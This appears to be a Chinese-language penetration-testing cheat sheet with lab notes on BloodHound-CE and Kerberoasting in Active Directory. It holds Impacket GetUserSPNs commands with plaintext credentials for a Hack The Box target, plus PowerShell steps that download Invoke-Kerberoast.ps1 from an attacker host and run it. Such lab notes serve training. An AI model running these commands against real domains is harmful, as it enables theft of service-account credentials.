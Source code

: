 #### Bloodhound-CE

注意最新版的kali 2025.2 已经集成Bloodhound-CE

密码：Xieyile127!@#

```
# 依靠bloodhound-cli启动docker容器
./bloodhound-cli containers start

# 注意使用如下命令可能会出现bug，例如8080端口消失
./bloodhound-cli resetpwd
```

Shortest Paths

```
# 从拥有的主体开始的最短路径
shortest path from owned principal

# 高价值目标的最短路径
Shortest Paths to High Value Targets
```

#### Impacket-GetUserSPNs

更多详细参考：https://tools.thehacker.recipes/impacket/examples/getuserspns.py

```
# 在整个域内环境识别SPN账户，请求Service Ticket，执行成功会返回TGS-REP Hash
impacket-GetUserSPNs fluffy.htb/j.fleischman:J0elTHEM4n1990! -dc-ip 10.10.11.69 -request

# 指定单个SPN用户，请求Service Ticket
impacket-GetUserSPNs fluffy.htb/j.fleischman:J0elTHEM4n1990! -dc-ip 10.10.11.69 -request-user ca_svc

# 指定要测试的SPN用户文件，请求Service Ticket
impacket-GetUserSPNs fluffy.htb/j.fleischman:J0elTHEM4n1990! -usersfile ./domainusers.txt -dc-ip 10.10.11.69

-save：将请求的 Service Ticket 以 .ccache 格式保存在磁盘上。对Pass the cache攻击很有用。此选项还会启用 -request。
-outputfile：将检索到的哈希值写入其中的文件名。如果未设置此选项，将打印值。
```

登录机器后，可利用Invoke-Kerberoast.ps1和Get-SPNs.ps1在Windows本地执行Kerberoasting攻击，详细参考[链接](https://www.cnblogs.com/kqdssheng/p/18891731#id3.2)。

```
# 执行Get-SPN.ps1，寻找SPN账户
.\Get-SPN.ps1

# 求票证并将其存储在内存中
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'

# 下载并执行Invoke-Kerberoast.ps1，获取SPN账户哈希值
powershell iwr http://192.168.45.154/Invoke-Kerberoast.ps1 -outfile Invoke-Kerberoast.ps1
.\Invoke-Kerberoast.ps1
```
